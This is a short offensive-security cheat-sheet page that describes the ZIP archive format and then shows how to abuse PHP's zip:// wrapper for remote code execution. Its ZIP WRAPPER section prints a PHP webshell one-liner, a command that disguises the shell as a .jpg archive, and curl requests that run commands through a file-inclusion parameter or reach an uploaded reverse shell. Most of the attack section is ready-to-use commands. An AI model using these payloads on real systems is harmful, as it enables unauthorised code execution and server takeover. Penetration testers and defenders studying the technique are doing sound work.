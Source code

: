 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ZIP

The ZIP file type is a widely used archive format designed to **compress and bundle one or more files or directories into a single file** for storage, distribution, or transport. It employs lossless compression algorithms, most commonly DEFLATE, to reduce file size without affecting the original content. A ZIP archive contains a central directory that lists the files, their metadata, and their compressed or uncompressed sizes, enabling efficient extraction and navigation of its contents.

ZIP files can store any type of data, including documents, images, executables, and even other archives, making them highly versatile. Many operating systems and applications provide native support for creating and extracting ZIP files, which contributes to their ubiquity. From a security perspective, ZIP archives can be abused to deliver malicious payloads, conceal executable code, or exploit vulnerabilities in archive parsing libraries. Password protection and encryption are supported, although implementations vary in strength, and weak encryption methods may be easily bypassed.

## ZIP WRAPPER

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper (not enabled by default) allows to achieve RCE by archiving a webshell into a zip file ending in an allowed extension, e.g. `.jpg`. The files within the archived can be reached using `#`. This has a higher chance to work if ZIP uploads are allowed by the application, as content-type filters may block it.

{% code overflow="wrap" %}
```shell
# Create and archive a webshell (zip file = shell.jpg)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# Upload → RCE (URL-encode '#' -> %23)
curl http://<ip:port>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
{% endcode %}

If ZIP uploads are allowed or the application stores the uploaded files in ZIP format, the shell can be uploaded directly and then accessed with or without the extension (depending on the code implementation):

{% code overflow="wrap" %}
```bash
$ curl --path-as-is "http://target-instance/index.php?file=zip://uploads/upload_1754572937.zip%23php-reverse-shell"
```
{% endcode %}
